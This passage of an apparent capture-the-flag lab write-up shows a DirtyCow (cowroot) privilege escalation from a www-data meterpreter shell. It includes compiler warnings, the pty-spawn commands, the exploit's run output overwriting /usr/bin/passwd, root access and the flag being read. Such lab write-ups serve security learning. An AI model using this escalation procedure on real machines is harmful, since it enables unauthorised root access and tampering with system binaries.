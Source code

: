 ```text
root@kali$ root@kali:~/Desktop# gcc -pthread cowroot.c -o cowroot 
cowroot.c: In function ‘procselfmemThread’:
cowroot.c:98:17: warning: passing argument 2 of ‘lseek’ makes integer from pointer without a cast [-Wint-conversion]
   98 |         lseek(f,map,SEEK_SET);
      |                 ^~~
      |                 |
      |                 void *
In file included from cowroot.c:27:
/usr/include/unistd.h:334:41: note: expected ‘__off_t’ {aka ‘long int’} but argument is of type ‘void *’
  334 | extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
      |                                 ~~~~~~~~^~~~~~~~
cowroot.c: In function ‘main’:
cowroot.c:135:5: warning: implicit declaration of function ‘asprintf’; did you mean ‘vsprintf’? [-Wimplicit-function-declaration]
  135 |     asprintf(&backup, “cp %s /tmp/bak”, suid_binary);
      |     ^~~~~~~~
      |     vsprintf
cowroot.c:139:5: warning: implicit declaration of function ‘fstat’ [-Wimplicit-function-declaration]
  139 |     fstat(f,&st);
      |     ^~~~~
```

With the exploit on the target machine, I made it executable with chmod and executed it. The dirty cow exploit upgraded my limited www-data shell to a full root shell. I quickly read the flag in the root directory with cat.

```text

root@kali$ msf >
meterpreter > shell
Process 2241 created.
Channel 0 created.
export TERM=xterm
export SHELL=bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
python -c ‘import pty;pty.spawn(“/bin/bash”)’
www-data@vulnuni:/var/www/vulnuni-eclass/courses/tmpUnzippingroot@kali$ ./cowroot
./cowroot
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
Size of binary: 42824
Racing, this may take a while..
/usr/bin/passwd overwritten
Popping root shell.
Don’t forget to restore /tmp/bak
thread stopped
thread stopped
root@vulnuni:/var/www/vulnuni-eclass/courses/tmpUnzipping# cat /root/flag.txt
cat /root/flag.txt
ff19f8d0692fe20f8af33a3bfa6635dd
root@vulnuni:/var/www/vulnuni-eclass/courses/tmpUnzipping# whoami
whoami
root
root@vulnuni:/var/www/vulnuni-eclass/courses/tmpUnzipping# id
id
uid=0(root) gid=33(www-data) groups=0(root),33(www-data)
root@vulnuni:/var/www/vulnuni-eclass/courses/tmpUnzipping#
```
